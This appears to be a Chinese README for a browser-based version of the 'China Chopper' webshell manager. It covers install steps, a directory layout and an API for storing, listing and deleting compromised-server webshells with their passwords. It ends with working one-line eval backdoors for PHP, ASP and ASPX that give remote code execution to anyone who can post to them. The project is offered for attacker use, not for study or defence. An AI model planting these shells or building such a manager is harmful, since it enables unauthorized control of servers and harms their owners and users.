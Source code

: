 ﻿> 项目介绍

为了更方便的而又跨平台的使用“中国菜刀”，我们创建了这个项目。该项目是Web版的"中国菜刀",我们暂时取名叫“血滴子”。欢迎感兴趣的朋友一起交流学习。

> 开发成员及负责方面

MXi4oyu(Python后端，用于处理“管理器对shell的核心操作”)。Email：798033502@qq.com

Black-Hole（JavaScrip前端，用于处理“管理器”在浏览器下的显示）。Email：158blackhole@gmail.com

> 安装方法

1. `pip install beaker`
2. `pip install pymysql`
3. `pip install sqlalchemy`
4. `pip install bottle_sqlalchemy`
5. `pip install jinja2`

> 项目的目录结构

```
www 根目录
├─App               应用目录
│  ├─Common             公共函数库
│  ├─Conf               配置目录
│  ├─Controller         控制器目录
│  ├─Model              模型目录
│  ├─View               视图目录
├─Core              核心目录
├─Public            静态资源目录
│  ├─js                 javascript文件目录branch
│  │  ├─branch          自定义javascript文件
│  │  ├─library         第三方javascript插件
│  ├─css                css文件目录
│  │  ├─branch          自定义css文件
│  │  ├─library         第三方css插件
│  ├─less               css引擎less文件目录
│  │  ├─branch          自定义less文件
│  ├─fonts              字体目录
│  ├─image              图像目录
├─index.py          入口文件
├─ip.txt            记录ip地址
├─passwd.py         生成密码
└─guillotines.sql   数据库文件
```

> API接口说明

#### 获取webshell总数
```javascript
地址:   /RootApi/webshell/total
方式:   GET
参数:   无
类型:   Number
示例:
512
```

#### 获取webshell列表
```javascript
地址:   /RootApi/webshell/list/<page:int>
#每页显示30条记录
方式:   POST
参数:   无
类型:   Json
示例:
{
	"type":"success",
	"info":[
		{
			"id":"1",
			"url":"http://github.com/1.php",
			"category":"PHP",
			"time":"2016-8-31 22:58:28"
		},
		{
			"id":"2",
			"url":"http://google.com/x.php",
			"category":"PHP",
			"time":"2016-8-31 22:59:02"
		}
	]
}
```

#### 添加单个webshell
```javascript
地址:   /RootApi/webshell/add
方式:   POST
参数:
{
	url:'url地址',
	password:'webshell的密码',
	category:'PHP'
}
类型:   Json
示例:
{
	"type":"success"
}
```

#### 删除单个webshell
```javascript
地址:   /RootApi/webshell/del
方式:   POST
参数:
{
	url:'url地址',
}
类型:   Json
示例:
{
	"type":"success"
}
```

#### 注意事项
只有当API的类型为`Json`格式时才会有错误信息，而且所有的`错误信息`都按照以下格式。
```javascript
{
	"type":"error",
	"info":"错误信息"
}


####血滴子一句话
PHP: <?php @eval($_POST['pass']);?>
ASP: <%eval request("pass")%>
ASPX: <%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
